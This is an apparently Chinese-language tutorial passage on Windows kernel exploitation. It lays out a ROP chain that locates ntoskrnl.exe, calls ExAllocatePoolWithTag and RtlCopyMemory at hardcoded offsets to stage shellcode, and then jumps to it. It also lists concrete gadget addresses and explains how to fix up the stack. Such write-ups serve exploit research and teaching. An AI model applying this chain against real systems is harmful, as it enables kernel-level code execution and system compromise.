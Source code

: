 [![](assets/1706090578-47b0adef3ba2a1293b03961e08cca116.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145317-4102794a-ba85-1.png)

```bash
unsigned long long base = ulGetKernelBase((PCHAR)"ntoskrnl.exe");
    unsigned long long ulExAllocatePoolWithTag = base + 0x9B203F;
    unsigned long long ulRtlCopyMemory = base + 0x40BEC0;
```

根据微软的函数调用规则，传参顺序是`rcx`，`rdx`，`r8`，返回地参数在`rax`中

那么一个理想的 ROP 布局

```bash
pop rcx rdx r8 ret
0
0x100
0xDEAD
ExAllocatePoolWithTag
---------------------------
pop rcx rdx r8 ret
0   ;暂时
shellcode_addr
0x100;
mov rcx, rax ret    ;此时 rcx = ExAllocatePoolWithTag 返回地内存地址
RtlCopyMemory
---------------------------
jmp rax
```

就这些 gadget 中的 pop 会消除`rsp+0x28`的驱动的`Handle`函数返回地址，所以首先是抬栈，如`sub rsp, 0x100`，在`jmp rax`之前多次调用`ret`来抬升`rsp`的值，最终回到`shellcode`调整为适用的`rsp`值。

**实际情况中也不会有恰好的 gadget 用**

实际上能用的`mov rcx, rax`可以通过以下方式实现

```bash
0x00000001408fa783 : push rax ; push rbx ; ret
0x00000001408fa77b : push rax ; push rdi ; ret
0x000000014020262C : pop rdi ; ret
```
